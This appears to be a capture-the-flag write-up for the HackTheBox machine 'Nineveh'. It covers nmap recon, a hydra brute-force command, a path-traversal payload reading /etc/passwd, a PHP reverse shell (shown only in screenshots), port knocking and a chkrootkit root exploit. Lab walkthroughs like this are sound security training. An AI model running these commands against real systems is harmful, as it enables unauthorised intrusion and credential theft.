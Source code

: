# Nineveh

## Machine Info

![Nineveh](./Nineveh.assets/Nineveh.png)

## Recon

- nmap

```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
| tls-alpn:
|_  http/1.1
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|phone|storage-misc
Running (JUST GUESSING): Linux 3.X|4.X|5.X (90%), Crestron 2-Series (86%), Google Android 4.X (86%), HP embedded (85%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/o:google:android:4.0 cpe:/o:linux:linux_kernel:5.0 cpe:/h:hp:p2000_g3
Aggressive OS guesses: Linux 3.10 - 4.11 (90%), Linux 3.12 (90%), Linux 3.13 (90%), Linux 3.13 or 4.2 (90%), Linux 3.16 - 4.6 (90%), Linux 3.2 - 4.9 (90%), Linux 3.8 - 3.11 (90%), Linux 4.2 (90%), Linux 4.4 (90%), Linux 4.8 (90%)
No exact OS matches for host (test conditions non-ideal).
```

- 80 http, 443 https
- path scan

![image-20231213074518595](./Nineveh.assets/image-20231213074518595.png)

![image-20231213074521977](./Nineveh.assets/image-20231213074521977.png)

![image-20231213075217706](./Nineveh.assets/image-20231213075217706.png)

- http://nineveh.htb/department/login.php
- https://nineveh.htb/db/index.php

## Foothold

### brute force

- login page

![image-20231213075302426](./Nineveh.assets/image-20231213075302426.png)

![image-20231213075306493](./Nineveh.assets/image-20231213075306493.png)

- hint: -> user admin, amrois

```
<!-- @admin! MySQL is been installed.. please fix the login page! ~amrois -->
```

- `hydra -L user -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^:F=Invalid"`

![image-20231213075339485](./Nineveh.assets/image-20231213075339485.png)

- https://nineveh.htb/db/index.php

![image-20231213075415732](./Nineveh.assets/image-20231213075415732.png)

### LFI

- check param

![image-20231213075445932](./Nineveh.assets/image-20231213075445932.png)

- direct LFI [x]

![image-20231213075457372](./Nineveh.assets/image-20231213075457372.png)

- guess matcher `ninevehNotes` is crucial

![image-20231213075530181](./Nineveh.assets/image-20231213075530181.png)

- http://nineveh.htb/department/manage.php?notes=/ninevehNotes_qwe/../../../../etc/passwd

![image-20231213075613086](./Nineveh.assets/image-20231213075613086.png)

### 24040

- POC

![image-20231213075643118](./Nineveh.assets/image-20231213075643118.png)

![image-20231213075647745](./Nineveh.assets/image-20231213075647745.png)

- change poc content into php reverse shell -> get www-data shell

![image-20231213075707289](./Nineveh.assets/image-20231213075707289.png)

![image-20231213075714988](./Nineveh.assets/image-20231213075714988.png)

## Privilege Escalation

### www-data -> root

- pspy -> find root scheduled task

![image-20231213075842747](./Nineveh.assets/image-20231213075842747.png)

- `/usr/bin/chkrootkit` -> searchsploit

![image-20231213075859715](./Nineveh.assets/image-20231213075859715.png)

- **33899**

```bash
for i in ${SLAPPER_FILES}; do
  if [ -f ${i} ]; then
     file_port=$file_port $i
     STATUS=1
  fi
done
```

```
The line 'file_port=$file_port $i' will execute all files specified in
$SLAPPER_FILES as the user chkrootkit is running (usually root), if
$file_port is empty, because of missing quotation marks around the
variable assignment.

Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.
```

![image-20231213075944970](./Nineveh.assets/image-20231213075944970.png)

### www-data -> amrois

- check linpeas output -> find mail text; or find knockd process

![image-20231213080203924](./Nineveh.assets/image-20231213080203924.png)

![image-20231213080223840](./Nineveh.assets/image-20231213080223840.png)

- check knock's config file

![image-20231213080235189](./Nineveh.assets/image-20231213080235189.png)

- knock on the local host, `knock $IP 571 290 911` or `for x in 571 290 911;do nmap -Pn --max-retries 0 -p $x 10.10.10.43; done`

- sensitive image: `/var/www/ssl/secure_notes/nineveh.png`, find hidden text
- by **strings**

![image-20231213080401206](./Nineveh.assets/image-20231213080401206.png)

- by **binwalk**

![image-20231213080407435](./Nineveh.assets/image-20231213080407435.png)

## Exploit Chain

recon -> path scan -> username leakage -> brute force cred -> LFI -> RCI -> get www-data shell -> sensitive img, knockd process, sensitive email -> amoris cred -> ssh conn after knocking -> root's scheduled task exploit
